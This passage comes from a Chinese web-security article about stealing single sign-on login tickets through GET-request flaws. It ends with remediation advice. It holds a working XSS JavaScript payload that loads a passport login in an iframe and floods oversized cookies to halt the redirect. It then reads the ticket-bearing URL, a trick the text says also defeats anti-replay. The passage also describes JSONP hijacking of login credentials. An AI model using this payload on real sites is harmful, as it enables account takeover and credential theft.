 偷的思路：

在xss中，用iframe包含单点登录的请求1，登录跳转后，我们通过src属性可以读到请求1的url，使用iframe.contentWindow.location.href可以读到跳转最后的请求3的url。但我们需要的是中间的请求2。所以我们想，可不可以让它跳到请求2后，不再继续跳转了，这样我们通过iframe.contentWindow.location.href就可以读到请求2的url了。这时候我想起，cookie超长的拒绝服务终于可以派上用场了

偷的方式

- Xss创建iframe，种超长cookie，让含ticket的302拒绝服务，然后使用iframe.contentWindow.location.href读取最后的iframe的当前地址

拒绝服务还有个好处，可以绕过某些ticket的防重放。因为有些票据在受害者端只要被使用后，可能我们盗取后也无法利用了。使用这种方式偷，可以让票据在受害者端不会被使用。

还有，根据path设置cookie可以精准的让我们的iframe停在我们想让它停的url上。

示例代码如下：

```
#!javascript
var iframe =document.createElement('iframe');
iframe.src="http://passport.wangzhan.com/login.php?url=http://www.t99y.com/a.php";
document.body.appendChild(iframe);
for (i = 0; i < 20; i++) {
    document.cookie = i + ‘=’ + ‘X’.repeat(2000);//可以根据需求设置path
 }
iframe.addEventListener('load', function(){
    document.write(iframe.contentWindow.location.href);
     for (i = 0; i < 20; i++) {
    document.cookie = i + '=' + 'X';
    }
}, false);
```

**场景五，跨域从通行证获取登陆ticket**

形式为类似`http://www.wangzhan.com/sso/getst.php?callback=jsonp`，然后通行证会返回个jsonp格式的数据，里面包含认证信息

参考案例 [WooYun: 微博上你点我发的链接我就可以登上你的微博（web版和app端均可两个漏洞一并提交）](http://www.wooyun.org/bugs/wooyun-2015-0124352)

偷的几种方式

- 可能存在jsonp劫持漏洞，可以通过jsonp劫持来偷取用户的登陆凭证
- Xss漏洞，去跨域请求此接口得到数据

# 0x0a 总结

------

综上所述，get请求的滥用大家都没重视过，但综合一些小漏洞，可能会产生一些意想不到的大漏洞

修复方案其实很简单，不要使用get方法进行非读操作，不要使用get方法传输敏感信息，因为你不可能控制你所有页面不向第三方发起带referrer的资源请求，而且get请求很难保护。它只是个天真烂漫的孩子，你不要让它承载太多责任

在前几天的阿里安全峰会上，我讲了这个议题，最后的观众提问环节有人问使用https可不可以解决上面的问题。答案当然是不可以，https解决的只是客户端到服务端的传输加密防篡改。但get请求的数据在两个端，尤其是客户端，https是保护不了的。

至于单点登录问题的修复方案，有很多层面都可以去解决，比如不使用get，不让攻击者发起伪造的单点登录请求等等， 这些细节需要具体问题具体对待，这里就不细讲了。有需求的女网友可以私下找我交流，共同为互联网的安全学习进步